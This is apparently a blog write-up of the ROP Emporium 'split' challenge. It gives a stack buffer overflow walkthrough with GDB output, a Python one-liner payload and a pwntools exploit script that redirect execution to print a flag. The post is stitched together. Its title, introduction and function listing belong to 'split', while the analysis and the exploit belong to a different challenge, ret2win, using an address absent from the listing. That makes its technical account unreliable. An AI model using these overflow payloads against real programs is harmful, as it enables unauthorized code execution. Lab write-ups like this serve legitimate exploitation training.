 ```yaml
---
layout: post
title:  "ROP Emporium - split"
date:   2020-05-8 14:07:19
categories: [ROP]
excerpt: "Doing these challenges to improve my binary exploitation skills and teach my self Return oriented programming (ROP). These challenges use the usual CTF objective of retrieving the contents of a file named flag.txt from a remote machine by exploiting a given binary"

comments: true
---
```



## Introduction
Second challenge from ROP Emporium, in this we are going to write a small ROP chain.

###### Challenge Description 
Combine elements from the ret2win challenge that have been split apart to beat this challenge. Learn how to use another tool whilst crafting a short ROP chain. 

###### About the Binary:
Our binary is usual ELF executable in 64-bit architecture. 

![source-01](/img/Screenshot_2020-05-09_11-12-06.png){: .align-left}


PIE isn't enabled so the binary will be loaded at a fixed location into memory (0x400000) everytime. With nx set to true, we know shellcode cannot be executed off the stack and we know binary has ASLR disabled.

## Analyzing the 64bit ELF binary
Lets load the binary with GDB and dump the functions.
```
gef➤  info function
All defined functions:

Non-debugging symbols:
0x00000000004005a0  _init
0x00000000004005d0  puts@plt
0x00000000004005e0  system@plt
0x00000000004005f0  printf@plt
0x0000000000400600  memset@plt
0x0000000000400610  __libc_start_main@plt
0x0000000000400620  fgets@plt
0x0000000000400630  setvbuf@plt
0x0000000000400640  __gmon_start__@plt
0x0000000000400650  _start
0x0000000000400680  deregister_tm_clones
0x00000000004006c0  register_tm_clones
0x0000000000400700  __do_global_dtors_aux
0x0000000000400720  frame_dummy
0x0000000000400746  main
0x00000000004007b5  pwnme
0x0000000000400807  usefulFunction
0x0000000000400820  __libc_csu_init
0x0000000000400890  __libc_csu_fini
0x0000000000400894  _fini
gef➤  
```

Here we can see interesting functions:
- main()
- pwnme()
- usefulFunction()

So lets see what these fucntions does!

###### main():


![source-01](/img/Screenshot_2020-05-11_09-01-32.png){: .align-left}


The only interesting thing here for us is, its calling a function name pwnme()other than that it is reading some user input using fget()

###### pwnme():


![source-01](/img/Screenshot_2020-05-09_11-16-18.png){: .align-left}


Just like in retwin challenge, we have a 32 byte buffer that can be overflowed with fgets that takes 96 characters from the user.


###### ret2win()


![source-01](/img/Screenshot_2020-05-09_11-17-39.png){: .align-left}


This function call system with /bin/cat flag.txt, so we need to return to this function to exploit the binary successfuly. 


## Fuzzing:
So now the binary analysis is out of the way. Lets start fuzzing the binary.
Run the program and send more than 40 bytes
```

➜  ret2win ./ret2win      
ret2win by ROP Emporium
64bits
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaa
[5]    74490 segmentation fault  ./ret2win

```
As expected the program segfaulted (crashed),we have a valid crash scenario here,but we are not sure if we have overwritten any registers.So lets attach the binary to gdb and analyze the crash.

Attach the binary to GDB using gdb -q return2win

###### Calculating offset
Generate cylic pattern and send to the program
```
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef0'
```
Copy past the generated pattern to the program


![source-01](/img/Screenshot_2020-05-09_11-20-57.png){: .align-left}


The program has crashed and we have overwritten the rsp,to find the extact offset copy the hex at rsp to the clipboard, then type pattern offset.


![source-01](/img/Screenshot_2020-05-09_11-23-21.png){: .align-left}


## Exploiting:

We have 40 bytes to fill the stack and then we need to put the address of the ret2win function.So that the saved return address will contain the address of the ret2win function (0x400811), and the program  execute the function.

The exploit then will look as follows:

**Payload: 

The payload will be very simple, just our junk and return address, when writting return address keep an eye for endianess.

[40 chars of junk] + [address of ret2win]  "A"*40             + "\x11\x08\x40"

**Here is my final exploit:

> python -c 'print "\x90"*40 + "\x11\x08\x40\x00\x00\x00\x00\x00"' | ./ret2win


![source-01](/img/Screenshot_2020-05-09_15-53-55.png){: .align-left}



Putting it all together,and i developed the final exploit with pwntools (python library) just for fun and learning.

```python

#!/usr/bin/python                                                              
 from pwn import *                                                              
 def main():                                                                    
     context.log_level = "info"                                                 
     elf = ELF('./ret2win')                                                     
     info(elf.symbols.ret2win)                                                  
     p = process(elf.path)                                                      
     ret2win = p64(elf.symbols.ret2win)                                         
     payload = b"A"*40 + ret2win                                                
     p.sendline(payload)                                                        
     p.recvuntil("Here's your flag:")                                           
     flag = p.recvline()                                                        
     success(flag)                                                              
 if __name__== "__main__":                                                      
     main()    
```

![source-01](/img/Screenshot_2020-05-09_16-20-05.png){: .align-left}


w00t we got the flag!

###### End 

Thats the end of ret2win challenge,it is a very simple one but as i progress through the challenges the exploits will become more complex and fun. Remember never stop learning, Cheers!.

> Code for this challenge  https://github.com/d3b4g/ROP-Emporium




